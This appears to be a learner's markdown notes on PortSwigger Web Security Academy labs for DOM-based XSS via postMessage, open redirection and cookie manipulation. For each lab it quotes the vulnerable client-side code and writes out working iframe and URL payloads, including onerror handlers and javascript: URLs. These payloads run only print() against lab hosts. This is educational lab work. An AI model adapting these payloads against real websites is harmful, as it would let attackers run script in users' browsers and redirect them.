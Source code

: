 
# **DOM-based vulnerabilities (general)**
https://portswigger.net/web-security/dom-based

material:

# **Controlling the web message source**
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

<!-- # materials: what is window.postmessage():
https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage -->

# **Controlling the web message source (3 labs)**
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

# ***1. Lab: DOM XSS using web messages***
https://0a85009c04059966c0d325d100d6002c.web-security-academy.net/

hint:
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">


1. look for messages listners / innerHTML object - find in response to home (GET / HTTP/1.1):
    <script>
        window.addEventListener('message', function(e) {
            document.getElementById('ads').innerHTML = e.data;
        })
    </script>

2. lets load the hinted code with labs url and img>tag based onerror event handler:
<iframe src="https://0a85009c04059966c0d325d100d6002c.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print(1)>','*')">

avoid apos char at: src='x' and onerror='print()'. they break the payload here



# DUDE!


# ***2.  Lab: DOM XSS using web messages and a JavaScript URL*** 
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

look for vulnarble JS functions by finding script>tag in responses:
find:
    <script>
        window.addEventListener('message', function(e) {
            var url = e.data;
            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                location.href = url;
            }
        }, false);
    </script>


so payload must start with 'http:' or 'https:' to be executed. lets try to pass arbitary url with hashed payload:

possible payloads:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()<!--http:','*')">

<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">

learned: use javascript: pseudo protocol in urls
https://brutelogic.com.br/blog/alternative-javascript-pseudo-protocol/


<!-- failed payload:
http:foo.bar#<script>print()</script>
loaded to iframe:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('<script>print()</script>//https:http:','*')">

http:foo.bar#<img src=1 onerror=print(1)>
urlencoded:
http%3afoo.bar%23<img+src%3d1+onerror%3dprint(1)>
uploaded to iframe:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/" onload="this.contentWindow.postMessage('https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/#<img+src%3d1+onerror%3dprint(1)>','*')">

or maybe just put payload before URL:
<img src=1 onerror=print(1)>;<!--https:>

uploaded into payload:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print(1)>;<!--https:>','*')">

 -->


# DUDE!



# ***3.  Lab: DOM XSS using web messages and JSON.parse*** 
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse


look for vulnarble script> tags at proxie - find:
    <script>
        window.addEventListener('message', function(e) {
            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
            document.body.appendChild(iframe);
            try {
                d = JSON.parse(e.data);
            } catch(e) {
                return;
            }
            switch(d.type) {
                case "page-load":
                    ACMEplayer.element.scrollIntoView();
                    break;
                case "load-channel":
                    ACMEplayer.element.src = d.url;
                    break;
                case "player-height-changed":
                    ACMEplayer.element.style.width = d.width + "px";
                    ACMEplayer.element.style.height = d.height + "px";
                    break;
            }
        }, false);
    </script>

3 posiible actions: scroll, load and change style. lets try load as a possible vector.
jason:
{"type":"load-channel", "data":"javascript:print()//"}

<iframe src="https://0a2500af039e943bc0f65f0c0025000f.web-security-academy.net" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*")'>

what i learned:
d.url == field name is url (not "data" you dummy)
escape the " in the jason to avoid breaking the outer iframe shell

# DUDE!


# DOM-based open redirection (1 lab)
https://portswigger.net/web-security/dom-based/open-redirection

# ***1.  Lab: DOM-based open redirection*** 
https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection


look for keyword url in response - find in post pages (GET /post?postId=1 HTTP/1.1):
    <div class="is-linkback">
        <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
    </div>

portswigger solution:
https://your-lab-id.web-security-academy.net/post?postId=4&url=https://your-exploit-server-id.web-security-academy.net/

payload:
https://0ad300bc03e07eacc1b32b24000900f0.web-security-academy.net/post?postId=1&url=https://exploit-0ab1006e03af7ee6c1892b8c011f001f.web-security-academy.net/exploit

(of course in the exploit page needs to be a badass maliciouse code)

# DOM-based cookie manipulation (1 lab)
https://portswigger.net/web-security/dom-based/cookie-manipulation


# ***1.  Lab: DOM-based cookie manipulation*** 
https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

hint:
document.cookie = 'cookieName='+location.hash.slice(1);

serach keyword cookie to find cookie related vulnarbilties - find in page (GET /product?productId=3 HTTP/1.1)
    <script>
        document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
    </script>

this script creates a link to our last seen product

<script>
    document.cookie = 'lastViewedProduct=' + location.hash.slice(1) + '; SameSite=None; Secure'
</script>



portswigger solution:
<iframe src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;">

i guess the onload works as follow:
check if window.x (arbitary var?) has valiue and if he does we redirect iframe to the second url value; after we load the window.x with value to make sure it resualts to true to fire the onload handler.

not sure why window.x only being loaded in the end
not sure why use the if clause and not redirect otherwise

but still - supercool


payload:
<iframe src="https://0a900063030848c7c03f08790046001e.web-security-academy.net/product?productId=3&'><script>print()</script>" onload="if(!window.x)this.src='https://0a900063030848c7c03f08790046001e.web-security-academy.net';window.x=1">


# DUDE!


# DOM-based XSS
https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data


did them without write up - to complete in future
